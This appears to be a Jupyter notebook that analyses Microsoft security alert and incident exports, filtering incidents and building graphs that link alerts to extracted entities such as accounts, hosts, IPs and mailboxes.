

8




23




24




25




33




22




: 

In [ ]:
from alert_graph import AlertGraph
import networkx as nx

for i, incident in enumerate(filtered_incident):
    alert_ids = json.loads(incident['AlertIds'])
    alert_entries = extract_alert(alert_ids, security_alert)
    alert_entries = alert_entries.drop_duplicates(subset='SystemAlertId', keep='first')
    print(len(alert_entries))
    alert_graph = AlertGraph(alerts=alert_entries)

    alert_graph.plot_custom_graph(
        root=0, 
        layout=nx.spring_layout(alert_graph.graph),
        figsize=(30, 20),
        base_node_size=15000,
        save_figure=True,
        file_path=f"plot_{i}.png"
    )


In [ ]:
from alert_graph import AlertGraph
alert_graph = AlertGraph(alerts=alert_entries)



In [ ]:
alert_graph.plot_custom_graph(
    root=0, 
    layout=nx.spring_layout(alert_graph.graph),
    figsize=(30, 20),
    base_node_size=15000
    )

In [ ]:
alert_graph.graph.nodes[8]

{'type': 'alert',
 'name': 'Suspicious emails sent by BEC-related user',
 'description': 'Suspicious emails were sent by a possibly compromised user account related to an ongoing BEC (business email compromise) fraud attempt. This alert was triggered based on a previous BEC-related alert.'}

In [ ]:
def process_entity_identifiers(entities_json_string):
    try:
        entity_dict_list = json.loads(entities_json_string)
    except:
        return []

    def is_local_ipv4(ip_address):
        try:
            if ip_address == "0.0.0.0" or ip_address == "127.0.0.1" or ip_address[:7] == "192.168" or ip_address[:3] == "10.":
                return True
            elif (ip_address[0:4] == "172."):
                ip_address_fields = ip_address.split(".")
                if len(ip_address_fields) >= 2:
                    ip_range = int(ip_address_fields[1])
                    if ip_range >= 16 and ip_range <= 32:
                        return True
            
            return False
        except:
            return False

    def get_identifier_value(entity_dict, identifier_field):
        return str(entity_dict[identifier_field]).lower() if identifier_field in entity_dict else ""
    
    entity_field_delimiter = "__"
    def union_fields(identifier_list):
        str_identifier_list = [str(identifier).lower() for identifier in identifier_list]
        return entity_field_delimiter.join(str_identifier_list)

    final_entities_list = []

    for entity_dict in entity_dict_list:
        if "Type" in entity_dict:
            type_value = entity_dict["Type"].lower()
            node_attributes = {"node_type": type_value}
            

            if type_value == "account":

                identifier_field = "AadUserId"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

                if "Name" in entity_dict and entity_dict["Name"] not in ["root", "system", "guest", "admin", "administrator", "user"]:
                    node_attributes['identifier_fields'] = "Name"
                    final_entities_list.append([type_value, "Name", entity_dict["Name"], json.dumps(node_attributes.copy())])

                if "Name" in entity_dict and entity_dict["Name"] not in ["root", "system", "guest", "admin", "administrator", "user"] and "UPNSuffix" in entity_dict:
                    node_attributes['identifier_fields'] = "Email"
                    final_entities_list.append([type_value, "Email", entity_dict["Name"] + "@"  + entity_dict['UPNSuffix'], json.dumps(node_attributes.copy())])
                
                if "Sid" in entity_dict:
                    if entity_dict["Sid"] in ['S-1-5-18']: continue
                    node_attributes['identifier_fields'] = "Sid"
                    final_entities_list.append([type_value, "Sid", entity_dict["Sid"], json.dumps(node_attributes.copy())])
                
                node_attributes['identifier_fields'] = "AadUserId"

            elif type_value == "cloud-application":

                identifier_field = "AppId"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

                if "Name" in entity_dict and "InstanceName" in entity_dict:
                    node_attributes['identifier_fields'] = "Name__InstanceName"
                    final_entities_list.append([type_value, "Name__InstanceName", union_fields([entity_dict["Name"], entity_dict['InstanceName']]), json.dumps(node_attributes.copy())])
                
                node_attributes['identifier_fields'] = "AppId"

            elif type_value == "file":

                identifier_field = "Name"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

                # if "Name" in entity_dict and "Directory" in entity_dict:
                #     final_entities_list.append([type_value, "Directory__Name", entity_dict['Directory'] + entity_field_delimiter + entity_dict["Name"], json.dumps(node_attributes.copy())])
                node_attributes['identifier_fields'] = "Name"

            elif type_value == "filehash":

                if "Algorithm" in entity_dict and "Value" in entity_dict:
                    node_attributes['identifier_fields'] = "Algorithm__Value"
                    final_entities_list.append([type_value, "Algorithm__Value", union_fields([entity_dict["Algorithm"], entity_dict["Value"]]), json.dumps(node_attributes.copy())])
                
                continue

            elif type_value == "host":

                identifier_field = "AadDeviceId"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

                if "AzureID" in entity_dict:
                    node_attributes['identifier_fields'] = "AzureID"
                    final_entities_list.append([type_value, "AzureID", entity_dict["AzureID"], json.dumps(node_attributes.copy())])

                if "HostName" in entity_dict:
                    node_attributes['identifier_fields'] = "HostName"
                    final_entities_list.append([type_value, "HostName", entity_dict["HostName"], json.dumps(node_attributes.copy())])

                if "OMSAgentID" in entity_dict:
                    node_attributes['identifier_fields'] = "OMSAgentID"
                    final_entities_list.append([type_value, "OMSAgentID", entity_dict["OMSAgentID"], json.dumps(node_attributes.copy())])

                node_attributes['identifier_fields'] = "AadDeviceId"

            elif type_value == "iotdevice":

                identifier_field = "DeviceId"
                node_attributes['identifier_fields'] = "DeviceId"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

            elif type_value == "ip":

                identifier_field = "Address"
                node_attributes['identifier_fields'] = "Address"
                identifier_value = get_identifier_value(entity_dict, identifier_field)
                if identifier_value in ('0.0.0.0', '127.0.0.1', '8.8.8.8'): continue
                node_attributes['IsLocalIPv4'] = str(is_local_ipv4(identifier_value))
                #if is_local_ipv4(identifier_value): continue
            
            elif type_value == "mailbox" or type_value == "mailboxconfiguration":

                identifier_field = "MailboxPrimaryAddress"
                node_attributes['identifier_fields'] = "MailboxPrimaryAddress"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

            elif type_value == "mailcluster":

                if "Source" in entity_dict and "Query" in entity_dict:
                    node_attributes['identifier_fields'] = "Source__Query"
                    final_entities_list.append([type_value, "Source__Query", union_fields([entity_dict["Source"], entity_dict["Query"]]), json.dumps(node_attributes.copy())])
                
                continue
            
            elif type_value == "mailmessage":

                identifier_field = "Sender"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

                if "Subject" in entity_dict: node_attributes['subject'] = entity_dict['Subject']

                if "Recipient" in entity_dict:
                    node_attributes['identifier_fields'] = "Recipient"
                    final_entities_list.append([type_value, "Recipient", entity_dict["Recipient"], json.dumps(node_attributes.copy())])

                if "SenderIP" in entity_dict and entity_dict["SenderIP"] not in ('0.0.0.0', '127.0.0.1', '8.8.8.8'):
                    node_attributes['identifier_fields'] = "SenderIP"
                    ip_address = entity_dict["SenderIP"]
                    copy_node_attributes = node_attributes.copy()
                    copy_node_attributes['IsLocalIPv4'] = str(is_local_ipv4(ip_address))
                    final_entities_list.append([type_value, "SenderIP", ip_address, json.dumps(copy_node_attributes)])
                
                node_attributes['identifier_fields'] = "Sender"

            elif type_value == "oauth-application":

                identifier_field = "OAuthObjectId"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

                if "OAuthAppId" in entity_dict:
                    node_attributes['identifier_fields'] = "OAuthAppId"
                    final_entities_list.append([type_value, "OAuthAppId", entity_dict["OAuthAppId"], json.dumps(node_attributes.copy())])
                
                node_attributes['identifier_fields'] = "OAuthObjectId"
            
            elif type_value == "process":

                if "ProcessId" in entity_dict and "CreatedTimeUtc" in entity_dict and "CommandLine" in entity_dict:
                    node_attributes['identifier_fields'] = "ProcessId__CreatedTimeUtc__CommandLine"
                    final_entities_list.append([type_value, "ProcessId__CreatedTimeUtc__CommandLine", union_fields([entity_dict["ProcessId"], entity_dict["CreatedTimeUtc"], entity_dict["CommandLine"]]), json.dumps(node_attributes.copy())])

                if "CommandLine" in entity_dict:
                    node_attributes['identifier_fields'] = "ExtractedFileName"
                    command_line = str(get_identifier_value(entity_dict, "CommandLine")).lower()
                    extracted_files = re.findall(r'([^\\\/\s"\']*\.(?:exe|pdf|dll|xlsx|docx|zip|png|txt|ps1|html|png|tmp))', command_line)
                    for extracted_file in extracted_files:
                        final_entities_list.append([type_value, "ExtractedFileName", extracted_file, json.dumps(node_attributes.copy())])

                continue
            
            elif type_value == "security-group":

                identifier_field = "ObjectGuid"
                identifier_value = get_identifier_value(entity_dict, identifier_field)

                if "SID" in entity_dict:
                    node_attributes['identifier_fields'] = "SID"
                    final_entities_list.append([type_value, "SID", entity_dict["SID"], json.dumps(node_attributes.copy())])
                
                node_attributes['identifier_fields'] = "ObjectGuid"

            elif type_value == "service-principal":

                identifier_field = "ServicePrincipalObjectId"
                node_attributes['identifier_fields'] = "ServicePrincipalObjectId"
                identifier_value = get_identifier_value(entity_dict, identifier_field)
            
            elif type_value == "url":

                identifier_field = "Url"
                node_attributes['identifier_fields'] = "Url"
                identifier_value = get_identifier_value(entity_dict, identifier_field)
            #     # TODO: add method to check if url is absolute or not
                #node_attributes['IsAbsoluteUrl'] = str(is_absolute_url(identifier_value))
            
            # both cloud resource types extract the subscription id from the resource url
            # elif type_value == "gcp-resource":

            #     identifier_field = "RelatedAzureResourceIds"
            #     resource_url = str(get_identifier_value(entity_dict, identifier_field)).lower()
            #     match = re.search(r'(?<=subscriptions/)[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}', resource_url)
            #     identifier_value = match.group() if match else ""
            
            elif type_value == "azure-resource":

                identifier_field = "ResourceId"
                resource_url = str(get_identifier_value(entity_dict, identifier_field)).lower()
                identifier_value = resource_url

                subscription_match = re.search(r'(?<=subscriptions/)[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}', resource_url)                
                if subscription_match:
                    node_attributes['identifier_fields'] = "SubscriptionId"
                    final_entities_list.append([type_value, "SubscriptionId", subscription_match.group(), json.dumps(node_attributes.copy())])

                resource_group_list = re.findall(r'resourcegroups/([^/]*)/', resource_url)
                if len(resource_group_list):
                    node_attributes['identifier_fields'] = "ResourceGroup"
                    final_entities_list.append([type_value, "ResourceGroup", resource_group_list[0], json.dumps(node_attributes.copy())])

                node_attributes['identifier_fields'] = "ResourceId"

            else:
                continue
            
            if identifier_value != "":
                final_entities_list.append([type_value, identifier_field, identifier_value, json.dumps(node_attributes)])
    
    return final_entities_list

In [ ]:
# entity_json_str = json.loads()
entities = process_entity_identifiers(alert_entries.iloc[0]["Entities"])

In [ ]:
alert_entries.iloc[0]

TenantId                                e34d562e-ef12-4c4e-9bc0-7c6ae357c015
TimeGenerated [UTC]                                8/9/2024, 10:39:11.928 PM
DisplayName                               Suspicious inbox manipulation rule
AlertName                                 Suspicious inbox manipulation rule
AlertSeverity                                                           High
Description                A user's inbox rules were manipulated in a sus...
ProviderName                                       MicrosoftThreatProtection
VendorName                                                         Microsoft
VendorOriginalId                             ra638572387477415459_-562905947
SystemAlertId                           b4d87322-7575-9c11-4073-58dc7f554a5a
ResourceId                                                               NaN
SourceComputerId                                                         NaN
AlertType                               4535cbac-6ddf-4610-baaa-a993ff79b594

In [ ]:
entities = process_entity_identifiers(alert_entries.iloc[0]["Entities"])
entities

[['account',
  'Name',
  'Cameron V',
  '{"node_type": "account", "identifier_fields": "Name"}'],
 ['account',
  'Email',
  'Cameron V@vnevado.alpineskihouse.co',
  '{"node_type": "account", "identifier_fields": "Email"}'],
 ['account',
  'Sid',
  'S-1-5-21-1840151660-3534030288-105586563-1602',
  '{"node_type": "account", "identifier_fields": "Sid"}'],
 ['account',
  'AadUserId',
  '67eb3881-208d-47ef-8d6b-131a341b4b2f',
  '{"node_type": "account", "identifier_fields": "AadUserId"}']]

In [59]:

import json
import pandas as pd


# extract the latest security alerts
def extract_alert(alert_ids, security_alert):
    found_alert_ids = []
    alerts_to_return = []
    for alert in security_alert.iterrows():
        if alert[1]['SystemAlertId'] in alert_ids and alert[1]['SystemAlertId'] not in found_alert_ids:
            alerts_to_return.append(alert[1])
            found_alert_ids.append(alert[1]['SystemAlertId'])
    return alerts_to_return

def filter_incidents(security_incident):
    security_incident["TimeGenerated [UTC]"] = pd.to_datetime(security_incident["TimeGenerated [UTC]"])
    security_incident = security_incident.sort_values(by="TimeGenerated [UTC]", ascending=False)

    filtered_incidents = []
    existing_alerts = []
    existing_labels = []
    for i, incident in security_incident.iterrows():
        labels = json.loads(incident['Labels'])
        # check if the incident is the latest in one line
        is_latest = any([label['labelName'] == 'LATEST' for label in labels])
        if not is_latest:
            continue
        
        current_alerts = set(json.loads(incident['AlertIds']))
        current_labels = set([label['labelName'] for label in labels])
        # check if current alert set is already in existing alerts
        max_inter = 0
        for existing_alert in existing_alerts:
            inter = len(current_alerts.intersection(existing_alert))
            if inter > max_inter:
                max_inter = inter
        if max_inter >= 3:
            continue

        if current_labels not in existing_labels:
            filtered_incidents.append(incident)
            existing_alerts.append(current_alerts)
            existing_labels.append(current_labels)
            
    return filtered_incidents


alert_path = "./SecurityAlert.csv"
incident_path = "./SecurityIncident.csv"

security_alert = pd.read_csv(alert_path)
security_incident = pd.read_csv(incident_path)

filtered_incidents = filter_incidents(security_incident)
filtered_incidents = [incident for incident in filtered_incidents if incident['TimeGenerated [UTC]'] > pd.Timestamp(2024, 8, 1)]
print(f"Number of filtered incidents: {len(filtered_incidents)}")






Number of filtered incidents: 7


In [76]:
len(security_incident)

1162

In [75]:
security_incident['IncidentName'].value_counts()

c5085ef5-1d1d-441e-b1d7-d8ae258445e8    54
fc9c9af1-e737-4c4b-b7c1-4985cb8f1518    47
10c5408e-d49c-4606-bcd2-71f6cb619e46    44
da550d29-9382-4de4-9f28-1a5999f02c96    43
ab9ad50b-259b-42a8-ad58-6526942d4b85    36
                                        ..
837808ff-144c-4a9c-826d-3458501872ed     1
d53a9498-8534-4998-9aef-c2ab390fd598     1
9bcf4599-809d-450b-a979-f95dd435072b     1
20d79eca-2032-4b1d-b81f-c270e419cff4     1
8ef93277-cc87-4c93-8229-141f5217b771     1
Name: IncidentName, Length: 408, dtype: int64

In [62]:
alert_ids = json.loads(filtered_incidents[1]['AlertIds'])
alert_ids

['e1c0bfa6-18c1-81b5-8a3e-0d347732b266',
 '73846159-bcd1-d7a5-ecca-f46ec2a26bd6',
 '75013ae0-7504-d192-8aae-90107aa6b19b',
 'a2fb174d-cdd1-4484-436a-f3cb4c2713bb',
 '435de706-beea-2f9f-c955-a0bec72a16ec',
 '8f7670f2-f36b-5131-3458-fc6bcc1bae4b',
 'c4318426-0f64-14f9-d2d4-6787328357c7',
 '0ffbd146-7624-e696-75b1-2e923cfbfce0',
 '01a23e9a-b69c-ee97-c5f0-447aaa91df7a']

In [67]:
filtered_incidents[1]['TimeGenerated [UTC]']

Timestamp('2024-08-17 22:40:19.079000')

In [73]:
filtered_incidents[1]

TenantId                                e34d562e-ef12-4c4e-9bc0-7c6ae357c015
TimeGenerated [UTC]                               2024-08-17 22:40:19.079000
IncidentName                            909f13db-13ce-4584-a4b5-6aa0e67397c6
Title                      Multi-stage incident involving Initial access ...
Description                                                              NaN
Severity                                                                High
Status                                                                   New
Classification                                                           NaN
ClassificationComment                                                    NaN
ClassificationReason                                                     NaN
Owner                      {"objectId":null,"email":null,"assignedTo":"Mi...
ProviderName                                                   Microsoft XDR
ProviderIncidentId                                                       801

In [72]:
security_alert["TimeGenerated [UTC]"] = pd.to_datetime(security_alert["TimeGenerated [UTC]"])

extracted = security_alert[security_alert['SystemAlertId'] == alert_ids[0]].sort_values(by="TimeGenerated [UTC]", ascending=True)
for k in extracted.iterrows():
    print(k[1]['TimeGenerated [UTC]'], k[1]['StartTime [UTC]'])

2024-08-01 12:49:26.753000 8/1/2024, 12:37:30.277 PM
2024-08-01 13:10:05.424000 8/1/2024, 12:37:30.277 PM
2024-08-01 13:15:09.462000 8/1/2024, 12:37:30.277 PM
2024-08-02 22:34:59.464000 8/1/2024, 12:37:30.277 PM
2024-08-02 22:40:05.532000 8/1/2024, 12:37:30.277 PM
2024-08-03 22:39:26.512000 8/1/2024, 12:37:30.277 PM
2024-08-04 22:35:01.983000 8/1/2024, 12:37:30.277 PM
2024-08-04 22:40:11.145000 8/1/2024, 12:37:30.277 PM
2024-08-05 22:34:43.871000 8/1/2024, 12:37:30.277 PM
2024-08-05 22:39:47.613000 8/1/2024, 12:37:30.277 PM
2024-08-06 22:34:44.511000 8/1/2024, 12:37:30.277 PM
